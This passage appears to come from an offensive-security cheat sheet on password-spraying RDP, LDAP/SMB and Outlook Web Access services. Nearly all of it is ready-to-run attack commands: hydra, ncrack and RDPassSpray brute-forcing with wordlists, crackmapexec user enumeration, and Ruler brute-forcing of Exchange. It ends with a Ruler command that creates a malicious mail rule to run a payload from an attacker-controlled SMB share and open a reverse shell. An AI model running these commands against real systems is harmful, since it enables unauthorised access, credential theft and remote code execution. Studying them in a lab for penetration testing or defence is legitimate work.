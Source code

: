 Using RDPassSpray to target RDP services.

```
git clone https://github.com/xFreed0m/RDPassSpray
python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]
```

Using hydra and ncrack to target RDP services.

```
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10
ncrack –connection-limit 1 -vv --user administrator -P password-file.txt rdp://10.10.10.10
```

## <mark style="color:red;">SMB</mark>

```
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       Guest      badpwdcount: 0 pwdLastSet: <never>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <never>
```

## <mark style="color:red;">Outlook Web Access</mark>

password spray against an Exchange 2016 server in a offense.local domain:

```
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```

if you are attempting to replicate this technique in your own labs, you may need to update your /etc/hosts to point to your Exchange server.

If the password spray against an Exchange server was successful and you have obtained valid credentials, you can now leverage Ruler to create a malicious email rule to that will gain you remote code execution on the host that checks that compromised mailbox.

validate the compromised credentials are working by checking if there are any email rules created already:

```
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```

The below suggests the credentials are working and that no mail rules are set for this account yet:

![](<../../.gitbook/assets/image (6) (1) (1).png>)

### <mark style="color:orange;">Get a Shell with Malicious Rules</mark>

we can use this technique to get a reverse shell:

```
#payload path:
/root/tools/evilm64.exe

# smb share and server:
smbserver.py tools /root/tools/

# setup your listener and run ruler to create a malicious email rule:
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
```
